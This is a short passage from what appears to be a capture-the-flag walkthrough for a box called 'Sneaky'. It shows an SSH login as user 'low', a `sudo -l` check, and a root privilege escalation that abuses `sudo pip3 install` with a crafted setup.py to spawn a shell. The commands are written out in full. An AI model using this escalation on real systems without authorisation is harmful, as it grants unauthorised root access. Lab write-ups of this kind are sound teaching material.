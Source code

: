 
and now we can try login via ssh with rsa key as low

![](/assets/img/sneaky/35.png)

## Privilege Escalation

as you can see we successfully login as low, and run `sudo -l` command will determining how to obtain root access

![](/assets/img/sneaky/36.png)

we can escalate into root using `pip3`, execute command below will lead you into root 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

![](/assets/img/sneaky/37.png)
